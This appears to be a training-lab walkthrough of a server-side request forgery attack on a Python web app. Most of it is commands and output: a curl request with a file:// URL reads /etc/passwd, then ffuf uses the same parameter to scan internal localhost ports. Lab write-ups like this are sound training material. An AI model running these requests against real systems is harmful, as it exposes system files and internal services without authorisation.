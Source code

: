 ```bash
curl -i -s "http://<TARGET IP>/load?q=file:///etc/passwd" 

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 926
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 11:27:17 GMT

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
```

### generate a word list for all the port and use it with fuff

#### Generate a Wordlist

```bash
for port in {1..65535};do echo $port >> ports.txt;done
```

#### Usage
  Curl - Interacting with the Target
  
```shell-session
GabrielQK@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://127.0.0.1:1"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 30
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 11:36:25 GMT

[Errno 111] Connection refused
```

**Use ffuf with the wordlist and discard the responses which have the size we previously identified.**

```shell-session
ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://127.0.0.1:PORT" -fs 30

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://<TARGET IP>/load?q=http://127.0.0.1:PORT
 :: Wordlist         : PORT: ./ports.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 30
________________________________________________

```